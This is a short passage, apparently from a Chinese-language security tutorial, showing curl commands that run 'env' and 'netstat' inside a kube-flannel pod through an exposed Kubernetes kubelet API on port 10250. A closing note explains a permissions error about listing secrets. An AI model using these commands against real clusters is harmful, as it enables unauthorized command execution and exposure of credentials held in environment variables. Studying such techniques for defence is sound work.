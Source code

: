 ```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=env"
```

[![](assets/1699842580-d8e30f93227496ba79d1c112dea9d572.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171053-660b416a-7316-1.png)

```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=netstat -ntlp"
```

[![](assets/1699842580-b950bcf34fc57e7f48431dd00b423cb5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171112-71be1410-7316-1.png)  
如果提示Error from server (Forbidden): secrets is forbidden: User “" cannot list resource "secrets" in API则说明权限不够
